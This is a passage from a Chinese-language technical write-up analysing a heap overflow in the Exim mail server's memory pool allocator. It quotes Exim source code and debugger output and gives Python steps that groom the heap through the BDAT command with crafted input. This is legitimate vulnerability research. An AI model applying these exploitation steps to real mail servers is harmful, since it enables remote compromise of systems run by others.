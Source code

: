 ````c
1709: next->text = store_get(header_size);
...
````
可以发现在申请next->text之前申请了两个sizeof(header_line)大小的buffer，这个大小是0x18\
所以如果在分配出这两个0x18大小的块以后剩下的大小yield_length小于0x100，\
那么在申请next->text的时候store_get里面会申请一个新的storeblock，并且next->text在该storeblock的开头

然后我们调用bdat命令
````python
r.sendline('BDAT 1')
r.sendline(':BDAT \xdd')
````
该命令里面包含一个不可见字符就会调用store_get申请一段buffer用于储存错误信息:
````shell
pwndbg> hexdump 0x71d0e0 
+0000 0x71d0e0  42 44 41 54  20 5c 33 33  35 00 20 63  68 75 6e 6b  │BDAT│.\33│5..c│hunk│
+0010 0x71d0f0  35 30 31 20  6d 69 73 73  69 6e 67 20  73 69 7a 65  │501.│miss│ing.│size│
+0020 0x71d100  20 66 6f 72  20 42 44 41  54 20 63 6f  6d 6d 61 6e  │.for│.BDA│T.co│mman│
+0030 0x71d110  64 0a 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │d...│....│....│....│
````
（包括非法指令里面如果包含不可见字符也会导致额外的堆块申请）

这时候不断地发送字符:
````python
unrec('a'*6 + p64(0xdeadbeef)*(0x1e00/8))
````
这时候就会逐字节往next->text里面填入接收到的字符，当0x100的空闲区域填充满后，就会运行到漏洞代码来扩展next->text的大小\
首先进入store_extend(next->text, oldsize, header_size)尝试直接扩展大小:
````c
File: store.c
266: BOOL
267: store_extend_3(void *ptr, int oldsize, int newsize, const char *filename,
268:   int linenumber)
269: {
270: int inc = newsize - oldsize;
271: int rounded_oldsize = oldsize;
272: 
273: if (rounded_oldsize % alignment != 0)
274:   rounded_oldsize += alignment - (rounded_oldsize % alignment);
275: 
276: if (CS ptr + rounded_oldsize != CS (next_yield[store_pool]) ||
277:     inc > yield_length[store_pool] + rounded_oldsize - oldsize)
278:   return FALSE;
...
````
主要的判断在276~277行\
第一个条件用于判断想到扩展的指针ptr后面是不是紧接着next_yield\
第二个条件用于判断加上next_yield的大小(即yield_length)是否足够\
显然第一个条件就不满足，因为next->text后面跟了一个bdat buffer, 再后面才是next_yield

然后进入store_get申请一个新的块，分配到了next_yield\
接着调用store_release释放原来的next_text，注意这里的判断逻辑：
````c
File: store.c
448: void
449: store_release_3(void *block, const char *filename, int linenumber)
450: {
451: storeblock *b;
452: 
453: /* It will never be the first block, so no need to check that. */
454: 
455: for (b = chainbase[store_pool]; b != NULL; b = b->next)
456:   {
457:   storeblock *bb = b->next;
458:   if (bb != NULL && CS block == CS bb + ALIGNED_SIZEOF_STOREBLOCK)
459:     {
````